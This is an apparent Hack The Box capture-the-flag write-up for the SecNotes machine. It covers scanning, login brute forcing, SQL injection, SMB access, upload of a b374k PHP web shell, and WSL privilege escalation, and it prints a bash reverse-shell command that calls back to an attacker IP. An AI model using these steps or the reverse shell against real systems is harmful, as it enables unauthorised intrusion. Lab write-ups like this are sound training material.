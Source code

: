 SecNotes
===

begin 2024/04/17 9:20  
finish 2024/04/18 13:30

###  User Flag

- [x] Scan port

Qucikly Port Scan  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/65b9d9fc-dbef-43ca-a3ca-08f86bf705dc)

I try to scan port 445, maybe can use ms-17-010,but it is not easy as I think.  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/c31ba67c-3633-420b-a72f-cbdfc561af2b)

- [x] Check web 
Path traversal  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/c7978e5d-f5c2-44d2-ace9-6c49f63fda39)

I try register account named test1 and logined to test note feature.But there's nothing special.  

![image](https://github.com/jim091418/htb_writeup/assets/67756786/c6ba459c-111e-4b61-b8ce-668b046bcdc6)

I noticed administrator's name might be tyler.  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/5e93c567-4111-4a68-8766-d05f54f09c3f)

If account name is incorrect, it will display "No account found with that username".  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/a9e9f034-0b52-47d7-b27c-603ac47740f4)

If password is incorrect , it will display "The password you entered was not valid".  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/ccf153f4-8a27-4965-9864-7e691f3a91d2)

I try use tyler to login, and I know tyler account exist!  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/ea76e053-3ed9-4173-a37f-219f10bb2bfd)

Now, hydra is flexing its muscles.  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/74527708-33f0-4c74-9c2d-7a6d4b828ac2)

Blank passworld, I didn't expect that.  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/1ec7ec98-f9e5-4064-bb07-f76e0d01d207)

I tried using rockyou with hydra, but didn't get any results. So I try to search another entry point.
Acrrodding to reviews, I used twice sql injecion and obtained usernamed 'tyler' and password.  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/20d4f463-ca4b-4e88-bf0e-eacb5cfbdb08)

smbmap can retrieve a lot useful infomation.for example, now we can confirm username and password are correct and 'new-site' directory is mounted.
![image](https://github.com/jim091418/htb_writeup/assets/67756786/d87ec3e6-03fe-45d1-9f4f-5ab18900508f)

smbclient visit directory and this is win server.
![image](https://github.com/jim091418/htb_writeup/assets/67756786/24369632-2997-42e6-80b7-fcb6e687a81c)

I scanned with nmap and found port 8808 is open! I thought about that upload file to confirm access or not.  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/f1528557-faf1-41b9-950d-89fe7f982738)

![image](https://github.com/jim091418/htb_writeup/assets/67756786/ff2d6518-8e71-4954-80aa-bdded526cff7)

Got it!  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/28b3d16c-6aab-409b-81e3-a947855b46d9)

Now I put b374k(https://github.com/tennc/webshell/blob/master/php/b374k/b374k-2.8.php) and visit(default password b374k).  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/ad192be2-e272-4b86-b9dc-56bbdcccd458)

user flag  
```
dir C:\user.txt /s
```
```
type path user.flag
```
![image](https://github.com/jim091418/htb_writeup/assets/67756786/ba848fb9-4c89-477d-b691-0117a83ca9a3)

###  Root Flag

- [x] privsec

I found key word WSL from reviws and google wsl privilege escalation.
```
wsl.exe "whoami"
```
![image](https://github.com/jim091418/htb_writeup/assets/67756786/021a85a4-b64b-485e-953a-27d4eb29894d)

Got root!  
```
wsl.exe "/bin/bash -i >& /dev/tcp/10.10.14.4/1237 0>&1"
```
![image](https://github.com/jim091418/htb_writeup/assets/67756786/1baf00d0-4072-44f1-9f74-b8281e5042e5)

I check bash history and found samba administrator.  
![image](https://github.com/jim091418/htb_writeup/assets/67756786/c2b843f1-bba0-4c9d-9fad-ceb85bacc3ff)

I try link to samba and found root.txt
![image](https://github.com/jim091418/htb_writeup/assets/67756786/19c420cd-92d1-4881-bf6e-efd81431a61f)
![image](https://github.com/jim091418/htb_writeup/assets/67756786/9e24af81-8080-4fb5-be30-e0fb36d1f6a0)


